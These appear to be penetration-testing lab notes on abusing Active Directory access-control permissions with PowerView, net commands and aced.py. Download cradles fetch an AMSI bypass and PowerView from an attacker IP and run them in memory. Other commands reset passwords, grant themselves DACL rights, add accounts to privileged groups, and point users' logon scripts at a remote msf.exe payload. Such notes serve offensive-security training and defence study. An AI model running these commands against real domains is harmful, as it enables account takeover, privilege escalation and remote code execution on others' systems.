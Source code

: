 ### Theory
- See diagram:  https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse#activedirectory
- DACLs & ACEs - first match principle; ACE structure as SDDL - ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
    - apply to users, computers, groups, etc.
- Abusable Permissions:
    - GenericAll - full rights to the object (add users to a group or reset user's password); abused with Set-DomainUserPassword or Add-DomainGroupMember
    - GenericWrite - update object's attributes (i.e logon script); abused with Set-DomainObject
    - WriteOwner - change object owner to attacker controlled user take over the object; abused with Set-DomainObjectOwner
    - WriteDACL - modify object's ACEs and give attacker full control right over the object; abused with Add-DomainObjectACL
    - AllExtendedRights - ability to add user to a group or reset password; abused with - Set-DomainUserPassword or Add-DomainGroupMember
    - ForceChangePassword - ability to change user's password; abused with Set-DomainUserPassword
    - Self (Self-Membership) - ability to add yourself to a group
    - AddMembers - abused with Add-DomainGroupMember
    - **Many More**

### Enumeration with PowerView
- Any domain user can query DACL for any object
- `. .\powerview.ps1`
- `(new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX`
- `(new-object system.net.webclient).downloadstring('http://192.168.49.121/PowerView.ps1') | IEX`
- `Get-ObjectAcl -Identity <user/computer/thing>; ConvertFrom-SID "S........."`
    - Better:  `Get-ObjectAcl -Identity <user/computer/thing> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}`
- **Domain Users we have rights over:**  `Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`
- **Domain Groups we have rights over:**  `Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`

### Other Tools
- Checking individual objects - aced.py:
    - `python3 aced.py prod.abc.com/user:pass@192.168.1.70`
    - `"Domain Admins", etc.`
- **BloodHound - Use it!**

### Abusing GenericAll
- User - change password:  `net user testservice1 h4x /domain`
    - Also possible if you have ForceChangePassword or AllExtendedRights right
- Group - add yourself:  `net group testgroup <user> /add /domain`
    - Also possible with AllExtendedRights or GenericWrite

### Abusing WriteDACL
- User:
    - Step 1 - give yourself rights:  `Add-DomainObjectAcl -TargetIdentity testservice2 PrincipalIdentity offsec -Rights All`
        - Confirm:  `Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`
    - Step 2 - use rights (change pw):  `net user testservice2 h4x /domain`
- Group:
    - Step 1 - give yourself rights:  `Add-DomainObjectAcl -TargetIdentity "MAILADMINS" -PrincipalIdentity SqlSvc -Domain tricky.com -Rights All -Verbose`
    - Step 2 - use rights (add yourself):  `Add-DomainGroupMember -Identity MAILADMINS -Domain TRICKY.com -Members SqlSvc`

### Abusing GenericWrite
- User: overwrite logon script
    - `Set-ADObject -SamAccountName TestService3 -PropertyName scriptpath -PropertyValue "\\192.168.45.210\share\run.txt"`
    - `Set-DomainObject TestService3 -Set @{'msTSTnitialProgram'='\\192.168.45.210\share\msf.exe'} -Verbose`
    - `Set-DomainObject TestService3 -Set @{'scriptPath'='\\192.168.45.210\share\msf.exe'} -Verbose`
- Group: add user (yourself)
- Computer: Resource-Based Constrained Delegation Attack...